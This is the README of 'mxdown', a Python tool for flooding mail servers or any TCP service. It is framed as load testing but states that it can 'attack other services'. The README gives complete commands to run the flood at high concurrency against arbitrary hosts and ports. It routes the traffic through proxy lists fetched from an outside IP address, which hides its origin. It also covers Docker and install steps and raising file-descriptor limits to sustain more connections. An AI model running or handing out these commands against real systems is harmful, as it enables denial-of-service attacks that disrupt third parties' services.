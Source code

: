 # mxdown
Check how much load your MX server (or other TCP Server) can handle via SYN flood atack.

Originally was needed to "test" mail server, but with few additional options `--just-connect`, `--direct-host` and `--port 5432` can be used to test the load or attack other services.

## Example
```shell
./maildown.py --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```

Not mail server on port 9633:
```shell
./maildown.py --port 9633 --host SOME.IP.ADDR.ESS --direct-host --just-connect --sleep-delay 10000 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1000
```

Remove `-vvv` to disable debug.

## Docker-based setup (the easy way)
### Build

```docker build -t mxdown .```

### Run

```shell
docker run -it mxdown  --host yourdomain.com --sleep-delay 100 -vvv --restart-period 600 --log-to-stdout --proxy-url http://143.244.166.15/proxy.list --concurrency 1
```

## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone git@github.com:dnikolayev/mxdown.git
cd mxdown/
pip install -r requirements.txt
```
## Run
```shell
Usage: maildown.py [OPTIONS]

  Run mxdown

Options:
  --host TEXT                  target host
  --port INTEGER               Port to connect, default: 25
  --sleep-delay INTEGER        Time to sleep after connection
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  -v, --verbose                Show verbose log
  --log-to-stdout              log to console
  --direct-host                Do not get MX from domain, just connect to provided host
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --shuffle-proxy              Shuffle proxy list on application start
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```

## Notes
**mxdown** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
